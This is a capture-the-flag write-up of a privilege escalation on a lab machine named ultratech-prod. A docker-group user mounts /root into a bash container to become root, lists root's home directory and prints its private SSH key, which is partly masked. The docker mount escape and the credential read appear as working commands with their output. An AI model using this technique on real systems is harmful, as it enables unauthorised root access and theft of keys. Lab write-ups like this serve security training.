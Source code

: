```shell


1 package can be updated.
0 updates are security updates.



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

r00t@ultratech-prod:~$ ls
```

i found that user `r00t` is part of the `docker` group. lets test if we can escalate our privileges.

first list available images.

```shell
r00t@ultratech-prod:~$ docker image ls
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
bash                latest              495d6437fc1e        3 years ago         15.8MB
```

then mount root to the mount point

```shell
r00t@ultratech-prod:~$ docker run -v /root/:/mnt -it bash

bash-5.0# whoami
root
bash-5.0# ls -la
total 40
drwx------    6 root     root          4096 Mar 22  2019 .
drwxr-xr-x    1 root     root          4096 Nov 15 21:51 ..
-rw-------    1 root     root           844 Mar 22  2019 .bash_history
-rw-r--r--    1 root     root          3106 Apr  9  2018 .bashrc
drwx------    2 root     root          4096 Mar 22  2019 .cache
drwx------    3 root     root          4096 Mar 22  2019 .emacs.d
drwx------    3 root     root          4096 Mar 22  2019 .gnupg
-rw-r--r--    1 root     root           148 Aug 17  2015 .profile
-rw-------    1 root     root             0 Mar 22  2019 .python_history
drwx------    2 root     root          4096 Mar 22  2019 .ssh
-rw-rw-rw-    1 root     root           193 Mar 22  2019 private.txt
```

and this is the private ssh key

```shell
bash-5.0# cd .ssh
bash-5.0# ls
authorized_keys  id_rsa           id_rsa.pub
bash-5.0# cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
*******************************************y1SWYaaREhio64iM65HSm
sIOfoEC+vvs9SRxy8yNBQ2bx2kLYqoZpDJOuTC4Y7VIb+3xeLjhmvtNQGofffkQA
jSMMlh1MG14fOInXKTRQF8hPBWKB38BPdlNgm7dR5PUGFWni15ucYgCGq1Utc5PP
NZVxika+pr/U0Ux4620MzJW899lDG6orIoJo739fmMyrQUjKRnp8xXBv/YezoF8D
****************************************************************
****************************************************************
****************************************************************
****************************************************************
****************************************************************
```